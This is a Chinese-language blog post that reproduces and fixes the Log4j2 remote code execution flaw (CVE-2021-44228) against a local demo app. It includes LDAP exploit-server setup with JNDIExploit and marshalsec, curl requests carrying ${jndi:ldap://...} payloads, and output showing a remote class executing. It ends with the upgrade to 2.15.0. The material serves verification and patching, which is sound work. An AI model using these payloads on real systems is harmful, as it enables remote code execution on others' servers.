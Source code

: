 ```yaml
---
layout: post
title: Apache Log4j2 远程代码执行漏洞（CVE-2021-44228）
categories: [BackEnd, Java, CVE]
description: Apache Log4j2 远程代码执行漏洞（CVE-2021-44228）
keywords: cve, log4j, log4j2, 漏洞
---
```


近期，大家都被这个**核弹级**漏洞搞疯了，各种紧急生产补丁的上，所以咱也来凑凑热闹

## 问题
这个漏洞到底有多严重？基本上看到`远程代码执行`，就是非常严重的漏洞，因为这代表攻击者，可以在被攻击者服务器上，执行任何想要的操作。

## 思考
怎么验证存在及修复了这个漏洞？

## 复现
### 基于JNDIExploit，搭建LDAP
- 参考：<https://github.com/Mr-xn/JNDIExploit-1>
- `java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 127.0.0.1`

### 创建一个Web工程（模拟被攻击的系统，如果验证已有系统可跳过）
- 如：<https://github.com/ShaneKingBlog/org.shaneking.demo.cve.y2021.s44228>
- 启动

### 见证奇迹的时刻
- 请求
```shell
curl -d 'val=${jndi:ldap://127.0.0.1:1389/SkTest211213Before}' -d 'otherKey=otherVal' -X POST http://localhost:8081/demo/cve/y2021/s44228/log
```
- JNDIExploit控制台输出结果（说明log4j2存在CVE-2021-44228漏洞）
```shell
[+] LDAP Server Start Listening on 1389...
[+] HTTP Server Start Listening on 8080...
[+] Received LDAP Query: SkTest211213Before
[!] Invalid LDAP Query: SkTest211213Before
[+] Received LDAP Query: SkTest211213Before
[!] Invalid LDAP Query: SkTest211213Before
[+] Received LDAP Query: SkTest211213Before
[!] Invalid LDAP Query: SkTest211213Before
```

## 解决
参考官方解决意见，升级版本到`2.15.0`，包括但不限于如下方式：
- SpringBoot项目
```xml
  <properties>
    <java.version>1.8</java.version>
    <log4j2.version>2.15.0</log4j2.version><!-- add this property to fix CVE-2021-44228 -->
  </properties>
```

## 回顾
### 原理
- log4j2在打印`${xxx}`内容时，会当命令执行

### 远程代码执行
#### 将漏洞文件放于某Web服务器中
- 如：将 <https://github.com/ShaneKingBlog/org.shaneking.demo.cve.y2021.s44228/src/main/resources/static/Log4j2Rce.class> 文件放于某Web服务器中
- 或启动 <https://github.com/ShaneKingBlog/org.shaneking.demo.cve.y2021.s44228> 工程

#### 通过marshalsec，搭建LDAP
- 参考：<https://github.com/mbechler/marshalsec>
- 命令（根据需要替换Web服务器url）
```shell
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8081/#Log4j2Rce" 1389
```

### 创建一个Web工程（模拟被攻击的系统，如果验证已有系统可跳过）
- 如：<https://github.com/ShaneKingBlog/org.shaneking.demo.cve.y2021.s44228>
- 启动（如上面已启动，则无需再启动）

#### 见证奇迹的时刻
- 请求：
```shell
curl -d 'val=${jndi:ldap://127.0.0.1:1389/Log4j2Rce}' -d 'otherKey=otherVal' -X POST http://localhost:8081/demo/cve/y2021/s44228/log
```

- org.shaneking.demo.cve.y2021.s44228.web控制台输出结果（说明log4j2存在CVE-2021-44228漏洞）

```shell
2021-12-15 01:58:09.458  INFO 45940 --- [nio-8081-exec-2] o.s.w.s.DispatcherServlet                : Completed initialization in 16 ms
SkTest211213Before: will print when Log4j2Rce loaded in static.
SkTest211213Before: will print when Log4j2Rce loaded in constructor.

2021-12-15 01:58:09.795  WARN 45940 --- [nio-8081-exec-2] s.d.c.y.s.c.DemoCveY2021S44228Controller : ${jndi:ldap://127.0.0.1:1389/Log4j2Rce}
SkTest211213Before: will print when Log4j2Rce loaded in constructor.

2021-12-15 01:58:10.332  WARN 45940 --- [nio-8081-exec-2] s.d.c.y.s.c.DemoCveY2021S44228Controller : RAW = ${jndi:ldap://127.0.0.1:1389/Log4j2Rce}
SkTest211213Before: will print when Log4j2Rce loaded in constructor.

2021-12-15 01:58:10.351  WARN 45940 --- [nio-8081-exec-2] s.d.c.y.s.c.DemoCveY2021S44228Controller : FMT = ${jndi:ldap://127.0.0.1:1389/Log4j2Rce}
```

## 附录
- 基于DREAD模型的漏洞等级计算：<https://www.secrss.com/articles/5566>
![](/images/posts/2021/12/db5608769f509557cb99ff7e464bd059.jpg)
- 安全漏洞如何评级：<https://www.zhihu.com/question/53669275>
![](/images/posts/2021/12/v2-de2ba8149eeac2cc442c1d3214f5f44f_1440w.jpg)
- 漏洞等级说明：<https://help.aliyun.com/document_detail/28388.html>
